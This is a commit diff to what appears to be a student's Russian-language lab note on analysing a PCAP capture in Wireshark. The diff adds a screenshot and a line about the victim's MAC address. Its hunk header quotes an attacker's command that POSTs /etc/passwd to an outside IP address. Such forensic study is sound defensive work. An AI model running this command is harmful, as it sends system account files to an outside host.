

Before and after one commit to ameliaash2454/study-labs, a Markdown page: Анализ PCAP WireShark.md, the part around the change. Rendered like a GitHub page; pictures changed too: attachment/Pasted image 20261108134320.png (added); blank space fills up the shorter version.

Commit message:
vault backup: 2026-11-08 13:43:42

```diff
--- a/Анализ PCAP WireShark.md
+++ b/Анализ PCAP WireShark.md
@@ -67,3 +67,5 @@ curl -X POST -d /etc/passwd http://117.11.88.124:443/ - была введена
 
 ## Расследование:
 Выбрала для анализа ip адреса ip.addr == 10.4.1.102 && ip.addr == 213.186.33.87
+![](attachment/Pasted%20image%2020261108134320.png)
+Мак адрес жертвы
```
